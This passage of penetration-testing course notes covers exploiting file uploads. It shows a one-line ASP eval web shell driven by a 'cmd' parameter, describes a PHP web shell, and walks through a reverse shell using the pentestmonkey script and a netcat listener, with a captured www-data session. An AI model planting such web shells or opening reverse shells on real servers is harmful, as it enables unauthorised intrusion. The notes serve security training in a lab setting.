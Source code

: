 If we write the above script to `shell.php` and upload it to our web application, we can execute system commands with the `?cmd=` GET parameter (e.g. `?cmd=id`), as follows:

![](Pasted%20image%2020250219163234.png)

This may not be as easy to use as other web shells we can find online, but it still provides an interactive method for sending commands and retrieving their output. It could be the only available option during some web penetration tests.

>[!Tip]
>If we are using this custom web shell in a browser, it may be best to use source-view by clicking `[CTRL+U]`, as the source-view shows the command output as it would be shown in the terminal, without any HTML rendering that may affect how the output is formatted.

Web shells are not exclusive to `PHP`, and the same applies to other web frameworks, with the only difference being the functions used to execute system commands. For `.NET` web applications, we can pass the `cmd` parameter with `request('cmd')` to the `eval()` function, and it should also execute the command specified in `?cmd=` and print its output, as follows:

```asp
<% eval request('cmd') %>
```

We can find various other web shells online, many of which can be easily memorized for web penetration testing purposes. It must be noted that `in certain cases, web shells may not work`. This may be due to the web server preventing the use of some functions utilized by the web shell (e.g. `system()`), or due to a Web Application Firewall, among other reasons. In these cases, we may need to use advanced techniques to bypass these security mitigations, but this is outside the scope of this module.

## Reverse Shell

Finally, let's see how we can receive reverse shells through the vulnerable upload functionality. To do so, we should start by downloading a reverse shell script in the language of the web application. One reliable reverse shell for `PHP` is the [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell) PHP reverse shell. Furthermore, the same [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) we mentioned earlier also contains reverse shell scripts for various languages and web frameworks, and we can utilize any of them to receive a reverse shell as well.

Let's download one of the above reverse shell scripts, like the [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell), and then open it in a text editor to input our `IP` and listening `PORT`, which the script will connect to. For the `pentestmonkey` script, we can modify lines `49` and `50` and input our machine's IP/PORT:

```php
$ip = 'OUR_IP';     // CHANGE THIS
$port = OUR_PORT;   // CHANGE THIS
```

Next, we can start a `netcat` listener on our machine (with the above port), upload our script to the web application, and then visit its link to execute the script and get a reverse shell connection:

```shell
gitblanc@htb[/htb]$ nc -lvnp OUR_PORT
listening on [any] OUR_PORT ...
connect to [OUR_IP] from (UNKNOWN) [188.166.173.208] 35232
# id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
